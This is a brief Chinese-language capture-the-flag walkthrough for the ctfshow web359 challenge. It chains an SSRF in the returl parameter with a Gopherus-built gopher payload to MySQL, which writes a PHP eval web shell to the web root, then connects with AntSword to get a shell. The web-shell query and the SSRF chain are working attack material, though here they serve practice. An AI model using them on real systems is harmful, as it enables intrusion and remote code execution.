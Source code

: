 - 后续过程见上面文章

### ctfshow web359

- 抓包发现returl，可能存在ssrf

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1675864722199-24b12ee7-6de9-416c-a810-b40db7678a88.png#averageHue=%23d0cfcf&clientId=u3e1739e4-bb48-4&from=paste&id=ub927e1eb&originHeight=614&originWidth=2016&originalType=url&ratio=1&rotation=0&showTitle=false&size=173200&status=done&style=none&taskId=u0d921de0-33a0-42ac-84fb-a44956ff086&title=)

- 使用gopherus工具
- `python2 gopherus.py `启动程序
- 输入mysql的一句话木马：`select "<?php eval($_POST[1]);?>" into outfile '/var/www/html/2.php'`

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1675866582690-2aabc4b9-9d20-4977-a532-10ea975b135d.png#averageHue=%232f333e&clientId=u3e1739e4-bb48-4&from=paste&height=66&id=u0cb834a5&originHeight=131&originWidth=1523&originalType=binary&ratio=1&rotation=0&showTitle=false&size=42579&status=done&style=none&taskId=uc329f1ce-52ae-46cf-ac14-f90a5304efb&title=&width=761.5)

- 对下划线后面的内容再次进行url编码，替换抓包后returl中的内容

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1675866665045-ae1d6722-bc25-4b6a-b0cb-9ecb99545ad1.png#averageHue=%23343944&clientId=u3e1739e4-bb48-4&from=paste&height=146&id=uca4d2d82&originHeight=292&originWidth=2355&originalType=binary&ratio=1&rotation=0&showTitle=false&size=165161&status=done&style=none&taskId=ua1b5a2ed-ea90-4951-b510-327acf3a34f&title=&width=1177.5)

- 访问2.php，蚁剑连接getshell